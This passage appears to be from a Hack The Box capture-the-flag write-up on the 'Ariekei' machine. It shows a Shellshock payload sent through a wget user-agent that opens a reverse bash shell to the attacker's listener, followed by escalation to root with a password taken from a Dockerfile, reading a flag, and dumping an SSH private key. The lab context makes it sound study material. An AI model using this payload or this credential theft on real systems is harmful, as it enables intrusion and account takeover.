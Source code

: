 root@ezra:/common/containers/blog-test# wget -U "() { test;};echo \"Content-type: text/plain\"; echo; /bin/bash -i >/dev/tcp/10.10.14.54/4445 0<&1 2>&1" http://172.24.0.2/cgi-bin/stats
--2017-12-19 08:07:17--  http://172.24.0.2/cgi-bin/stats
Connecting to 172.24.0.2:80... connected.
HTTP request sent, awaiting response... 
```

```
root@kali:~/hackthebox/Ariekei# nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.65] 37862
www-data@beehive:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@beehive:/usr/lib/cgi-bin$ hostname
hostname
beehive.ariekei.htb
www-data@beehive:/usr/lib/cgi-bin$  
```

Shellz!

The docker file had a root password ```Ib3!kTEvYw6*P7s```

We can do su with that ofcourse



```
root@beehive:/home/spanishdancer# cat user.txt
cat user.txt
ff0bca827a5f660f6d35df7481e5f216
```

Its .ssh folder has some kewl infos

```
root@beehive:/home/spanishdancer/.ssh# ls -la
ls -la
total 20
drwx------ 2 1000 1000 4096 Sep 24 00:31 .
drwxr-xr-x 5 1000 1000 4096 Nov 13 14:19 ..
-rw-rw-r-- 1 1000 1000  407 Sep 24 00:31 authorized_keys
-rw------- 1 1000 1000 1766 Sep 24 00:31 id_rsa
-rw-r--r-- 1 1000 1000  407 Sep 24 00:31 id_rsa.pub
```

```
root@beehive:/home/spanishdancer/.ssh# cat id_rsa
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,C3EBD8120354A75E12588B11180E96D5
